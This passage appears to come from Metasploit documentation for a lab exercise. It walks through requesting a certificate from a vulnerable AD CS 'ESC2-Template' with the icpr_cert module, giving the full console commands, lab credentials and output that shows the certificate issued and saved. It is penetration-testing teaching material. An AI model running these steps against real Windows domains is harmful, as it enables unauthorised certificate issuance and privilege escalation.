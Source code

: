 For the first run, we will set the usual `RHOSTS`, `CA`, and `CERT_TEMPLATE` details, being sure to set `CERT_TEMPLATE` to the vulnerable `ESC2-Template` certificate template, and supply valid SMB login credentials. This will grant us a certificate for our current user that is based off of the vulnerable `ESC2-Template`:

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Template
CERT_TEMPLATE => ESC2-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot
```